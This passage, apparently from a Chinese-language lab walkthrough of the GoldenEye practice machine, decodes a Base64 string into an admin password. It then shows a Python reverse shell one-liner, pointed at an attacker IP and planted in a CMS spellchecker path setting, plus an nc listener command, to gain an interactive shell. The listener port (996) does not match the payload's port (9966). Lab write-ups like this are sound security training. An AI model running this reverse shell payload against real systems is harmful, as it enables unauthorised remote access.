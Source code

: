 
python脚本如下：

```
┌──(root㉿kali)-[~/oscp/goldeneye]
└─# cat base64_decode.py
import base64

# 要解码的字符串
encoded_text = "eFdpbnRlcjE5OTV4IQ=="


# 对数据进行Base64解码
decode_data = base64.b64decode(encoded_text)
print("Base64编码结果：", decode_data.decode())


┌──(root㉿kali)-[~/oscp/goldeneye]
└─# python3 base64_decode.py
Base64编码结果： xWinter1995x!

┌──(root㉿kali)-[~/oscp/goldeneye]
└─#
```

最后得到了admin的密码                                        

0x04: cms漏洞利用

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DsPeExbhXzElZ23FwIcgXn7JYky3BzmLpR72Kia9KZldkTN2kKSdKGFQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

​              spell engine 变成pspellshell                         

构建一个反弹shell，payload：

- 

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",9966));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7DIIwCQxLV4KXGTKIEtXIrmgaxx8230u655Eg7FxUno5oG8NsMobibRGQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

在path to aspell中加入payload后，在攻击机上nc开启监听：

nc -lvp 996

然后打开富文本写入内容后，点击Toggle spellchecker



![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/yt0TxdOI0SzY7CF1mBpm6Nn0JMPB1C7D9GHxElI3BrUOiasPPDApbkH2ibZvbic7h3StZWRh2QBhLxJJvuwwE4ksw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1)

至此进入了交互shell中。                                        

